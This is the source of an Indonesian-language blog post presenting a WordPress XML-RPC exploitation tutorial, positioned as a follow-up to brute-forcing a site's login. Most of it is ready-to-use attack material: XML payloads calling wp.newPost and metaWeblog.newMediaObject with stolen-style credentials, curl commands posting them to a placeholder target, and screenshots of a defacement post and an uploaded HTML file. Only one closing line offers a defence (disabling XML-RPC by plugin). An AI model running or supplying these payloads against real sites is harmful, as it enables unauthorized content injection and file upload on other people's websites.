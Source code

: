 ```yaml
---
layout: post
title: "Exploiting XML-RPC API pada WordPress"
image: "https://1.bp.blogspot.com/-WpYnpcfB0yE/YK60vej5LxI/AAAAAAAAAx4/7JctMR21Io8Q_Lnpxxkw3YAU6atD-u0ZQCLcBGAsYHQ/s720/thumbnail.png"
tags: tutorial, exploit, hacking
category: exploit
description: Vulnerability pada XML-RPC bukan hanya BruteForce saja...
comments: true
fullview: false
---
```

<!-- excerpt-start --><img src="https://1.bp.blogspot.com/-WpYnpcfB0yE/YK60vej5LxI/AAAAAAAAAx4/7JctMR21Io8Q_Lnpxxkw3YAU6atD-u0ZQCLcBGAsYHQ/s720/thumbnail.png"></img><br><br>
Vulnerability pada XMLRPC / tahap setelah BruteForce / alternatif jika gagal login ke /wp-admin/ (403/404/500)


1. Add Post (Menambahkan Postingan)
Menambahkan Postingan Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addpost.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="10" cols="45" readonly>&lt;?xml version=&quot;1.0&quot;?&gt; &lt;methodCall&gt;
&lt;methodName&gt;wp.newPost&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;post_title&lt;/name&gt;&lt;value&gt;Exploit To Add Post with XML-RPC&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_content&lt;/name&gt;&lt;value&gt;Seems Like The Site Was Vulnerable!&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_excerpt&lt;/name&gt;&lt;value&gt;excerpt&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;</textarea>
 Saatnya mengexploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addpost.xml

Jika sukses akan tampil seperti ini:

<img src="https://1.bp.blogspot.com/-3_VxUe-b2hI/YK6ws0-YhhI/AAAAAAAAAxY/Gse9CgoAhNoQxqs4a8pVU89yi1yZTzI8QCLcBGAsYHQ/s720/xmlrpc1.png"></img>

Angka 6 adalah id postnya

Cara melihat postingannya dengan menambahkan ?p=idpostingan 

Contoh: http://vulnsite.com/?p=6

<img src="https://1.bp.blogspot.com/-6xYsoswPrT4/YK6xZ3-brfI/AAAAAAAAAxg/oNfoSh3dcuw1X5kMnbbdv7pSJbtQhiFtQCLcBGAsYHQ/s1280/Screenshot_20210527-030808.jpg"></img>

Post Sukses Dibuat.



 Add Media/File (Menambahkan Media/File)


Menambahkan Media atau File Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addfile.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="10" cols="45" readonly>&lt;?xml version="1.0"?&gt; &lt;methodCall&gt;
&lt;methodName&gt;metaWeblog.newMediaObject&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;name&lt;/name&gt;&lt;value&gt;touched.html&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;type&lt;/name&gt;&lt;value&gt;text/plain&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;bits&lt;/name&gt;&lt;value&gt;
                &lt;![CDATA[&lt;h1&gt;&lt;center&gt;File Uploaded Success&lt;br/&gt;XML-RPC add file exploit&lt;/center&gt;&lt;/h1&gt;]]&gt;
&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;
&lt;/methodCall&gt;</textarea>


Exploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addfile.xml

Jika sukses akan tampil seperti ini:

<img src="https://1.bp.blogspot.com/-74YKRVD53CY/YK6zLpjtssI/AAAAAAAAAxo/U2fWlh3r3_wVvQBgRZYNgXWesfOAgH5tgCLcBGAsYHQ/s720/xmlrpc2.png"></img>

File sukses disimpan sesuai dengan nama yg telah ditentukan, di sini saya namakan filenya touched.html

Cara melihat hasil file yg tersimpan:

http://vulnsite.com/wp-content/uploads/2021(tahun saat upload)/05(bulan saat upload/namafile.html

Mari kita cek!:

<img src="https://1.bp.blogspot.com/-MjLsBrWYg8s/YK60B9YBacI/AAAAAAAAAxw/eBxv4TcpIJM0YRAfG8MzRjOIYflWOZfYwCLcBGAsYHQ/s1280/Screenshot_20210527-031736.jpg"></img>

File sukses terupload!



Cara mencegah exploit ini adalah dengan menginstall plugin bernama "Disable XML-RPC" lalu aktifkan, dan xmlrpc akan aman.



Sekian dari saya, semoga berguna dan bermanfaat!



